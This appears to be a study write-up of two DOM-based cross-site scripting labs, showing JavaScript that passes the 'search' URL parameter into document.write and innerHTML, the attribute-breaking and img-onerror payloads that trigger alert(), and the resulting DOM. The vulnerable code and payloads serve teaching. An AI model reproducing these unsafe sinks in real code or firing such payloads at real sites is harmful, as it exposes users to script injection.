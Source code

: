 # Function that uses "document.write()" and concatenation of the input string

### Scenario

```javascript
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
```
With the document.write function it writes the "img" tag with the specified "src" parameter. In it there is a concatenation with the parameter that the user give to the page.

The parameter is taken from window.location.search and the parameter name is "search". If the is not empty then the JS function "trackSearch" is called.

N.B.: the window.location.search take anything which comes after the question mark in the URL.

In the DOM the passed element is displayed in the "img" tag created by the JS function:
```html
<img src="/resources/images/tracker.gif?searchTerms=test">
```

### Exploitation

We can pass this string as input:

```
test" onload=alert()
```

Here, what happens is the following:
- The img tag is created as shown before;
- Now, due to the presence of " we are able to break the string automatically created by the JS function;
- The image is actually loaded, but given the presence of the onload action we inserted, the action specified in it will be perfomed after the image loading;
- We inserted the alert() function in the onload action, so we expect to see an alert box on the web page;
- We cannot close the " because there is that already inserted by the JS function.

The HTML resulting from this input is the following:
```html
<img src="/resources/images/tracker.gif?searchTerms=test" onload=alert()">
```

# INNER.html sink using source "location.search"

### Scenario

```javascript
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
```

This JS code snippet takes the input string with "window.location.search" and takes the parameter called "search".

This string is passed to the JS function and used with the innerHTML.

DOM in which the input is diplayed:

```html
<span id="searchMessage">uniquetest</span>
```

In innerHTML if we pass a <script> tag it won't be executed. This is a security feature. So we need to pass something else.

### Exploit
We can use:
```
<img src='0' onerror=alert()>
```
The src provided will cause an error and onerror we load the alert() function.
As we seen before the "script" tag is not executed but not the "img" tag.

The DOM modified is the following:
```html
<span id="searchMessage">
    <img src="0" onerror="alert()">
</span>
```
